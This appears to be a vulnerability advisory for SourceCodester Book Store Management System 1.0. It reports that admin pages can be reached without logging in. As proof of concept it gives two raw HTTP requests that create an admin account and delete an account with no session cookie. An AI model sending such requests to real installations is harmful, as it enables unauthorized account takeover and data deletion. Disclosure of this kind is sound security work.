

# Broken Access Control

Description: Vulnerability was found in SourceCodester Book Store Management System 1.0. This vulnerability allows a remote attacker to access all URLs without logging in and use all actions like account management page.

The product(s): https://www.sourcecodester.com/php/15748/book-store-management-system-project-using-php-codeigniter-3-free-source-code.html

Affected product(s)/code base: https://www.sourcecodester.com/sites/default/files/download/oretnom23/bsms_ci.zip

Affected component(s):

- /bsms_ci/index.php/category/*
- /bsms_ci/index.php/book/*
- /bsms_ci/index.php/transaction/*
- /bsms_ci/index.php/history/*
- /bsms_ci/index.php/user/*

Proof of Concept: Access all URLs without logging in and use all actions like an admin like edit, detele, add new account.

1. Send a request Add new account without cookie

Burpsuite Request:

```txt
POST /bsms_ci/index.php/user/add HTTP/1.1
Host: localhost
Content-Length: 64
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="107", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/bsms_ci/index.php/user
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

fullname=john&username=john&password=12345&level=admin&save=Save
```

Image:



2. Send a request Delete account without cookie

Burpsuite Request:

```txt
GET /bsms_ci/index.php/user/hapus/2 HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="107", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/bsms_ci/index.php/user
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


```

Image:


Discoverer(s)/Credits: CMCSOC Redteam (@lithonn)

- Ngo Van Tu (@leecybersec)
- Tran Thi Nho (@nhott)
- Huynh Nhat Hao (@h40huynh)
- Le Thi Huyen My (@Huy3nMy)